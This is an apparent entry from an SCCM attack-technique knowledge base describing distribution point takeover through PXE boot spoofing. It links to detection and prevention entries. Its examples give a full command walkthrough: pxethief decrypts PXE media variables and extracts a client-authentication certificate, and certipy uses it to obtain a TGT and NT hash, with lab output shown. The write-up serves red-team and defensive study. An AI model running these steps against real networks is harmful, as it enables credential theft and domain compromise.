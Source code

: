 # ELEVATE-4

## Description
Distribution Point Takeover via PXE Boot Spoofing

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
- Local network access
- Line of sight to PXE-enabled distribution point
- PKI client authentication certificates are used for communication with the PXE-enabled distribution point

## Optional Requirement
- Line of sight to a DHCP server (required if a distribution point hasn't been previously discovered)

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires it's PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. For PXE-enabled distribution points, the certificate is sent to and used by client computers to authenticate to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully spoof PXE boot deployment and extract the PKI certificate from the PXE boot variables file contents may gain control of the certificate's AD identity.

## Impact
 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system. 

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)
- [PREVENT-21: Restrict PXE boot to authorized VLANs](../../../defense-techniques/PREVENT/PREVENT-21/prevent-21_description.md)

## Examples

1. On the attacker server, spoof the PXE boot process with pxethief.py with option 2 to recover the PKI certificate distributed by the targeted DP. A suitable Distribution Point can be identified using [RECON-2](../../RECON/RECON-2/recon-2_description.md). Otherwise, a PXE boot server may be discovered via a PXE DHCP discover broadcast using pxethief's option 1. 

```

┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─# python3 pxethief.py 2 10.3.10.12

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Generating and downloading encrypted media variables file from MECM server located at 10.3.10.12
[+] Using interface: eth0 - eth0
[+] Targeting user-specified host: 10.3.10.12
[+] Asking ConfigMgr for location to download the media variables and BCD files...
Finished sending 1 packets
Received 1 packets, got 1 answers, remaining 0 packets

[!] Variables File Location: \SMSTemp\2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[!] BCD File Location: \SMSTemp\2025.06.04.15.34.54.04.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.bcd
[!] Blank password on PXE boot found!
[!] Attempting automatic exploitation.
[+] Media variables file to decrypt: 2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[+] Password bytes provided: 0xeaffc0ff3300b8ffbaff6d004a00daffbfffb6ff
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx. Certificate password is affba0f7-65c6-4743-99b0-99af62d

```
2. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─$ openssl pkcs12 \
-in 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx \
-passin pass:affba0f7-65c6-4743-99b0-99af62d \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            34:00:00:00:03:cd:a2:70:1a:ec:40:dc:17:00:00:00:00:00:03
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  4 19:21:29 2025 GMT
            Not After : Jun  4 19:21:29 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0-.%+.....7.........z..$...#...cb..........d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                16:40:8E:22:CF:A9:E8:21:FC:9B:2D:7C:73:90:F5:90:60:8A:89:73
            X509v3 Authority Key Identifier:
                7A:D3:15:84:7A:FD:48:F2:C0:33:D1:BE:5E:62:57:AD:2F:53:EA:C8
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-sitesrv.ludus.domain
```

3. Use certipy to authenticate on behalf of the recovered certificate's identity.


```
┌──(Certipy)─(root㉿sccm-kali)-[/home/kali/Certipy]
└─# certipy auth -pfx ../PXEThief/123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx -password affba0f7-65c6-4743-99b0-99af62d -dc-ip 10.3.10.10
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-sitesrv.ludus.domain'
[*] Using principal: 'sccm-sitesrv$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-sitesrv.ccache'
[*] Wrote credential cache to 'sccm-sitesrv.ccache'
[*] Trying to retrieve NT hash for 'sccm-sitesrv$'
[*] Got hash for 'sccm-sitesrv$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:56c99bd025fb48dea2ea4cdeee878af1
```

## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description.md)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed)
- onSec-fr, [Got pfx from server with client auth](https://github.com/MWR-CyberSec/PXEThief/issues/8)
